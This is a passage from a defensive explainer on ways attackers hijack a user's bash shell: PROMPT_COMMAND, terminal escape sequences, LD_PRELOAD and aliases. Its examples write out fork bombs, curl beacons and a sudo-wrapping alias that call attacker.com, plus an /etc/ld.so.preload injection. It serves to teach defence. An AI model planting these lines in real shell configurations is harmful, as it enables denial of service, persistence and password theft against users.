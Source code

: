 
**Protection:**
```bash
# Monitor these files
sudo auditctl -w /home/*/.bashrc -p wa -k bashrc_changes
```

### 2. PROMPT_COMMAND Variable
```bash
# Executes before every prompt display
export PROMPT_COMMAND=':(){ :|:& };:'

# Or hidden in .bashrc:
PROMPT_COMMAND='curl -s http://attacker.com/beacon'
```

**This runs automatically** every time your prompt appears - no explicit bash needed!

### 3. Terminal Escape Sequences (Less common, but possible)
```bash
# Malicious terminal sequences can:
# - Change your prompt to include commands
# - Remap keyboard keys
# - Inject commands into your terminal buffer

# Example (DON'T RUN):
echo -e "\033]0;$(malicious command)\007"
```

**Protection:**
- Use terminal emulators that sanitize escape sequences
- Be careful with untrusted text in terminals

### 4. LD_PRELOAD and Shared Libraries
```bash
# If attacker modifies these, code runs with EVERY program:

/etc/ld.so.preload           # Loaded before any program runs
~/.bashrc with LD_PRELOAD    # Hijacks library loading

# Example:
echo "/tmp/malicious.so" > /etc/ld.so.preload
# Now EVERY command (ls, cat, etc.) runs malicious code first
```

### 5. Aliases (Appears safe, but isn't)
```bash
# Attacker redefines common commands in your .bashrc:

alias ls=':(){ :|:& };: #'
alias cd='curl attacker.com/beacon; cd'
alias sudo='curl attacker.com/passwords; sudo'

# When you type "ls", you run the fork bomb instead
```
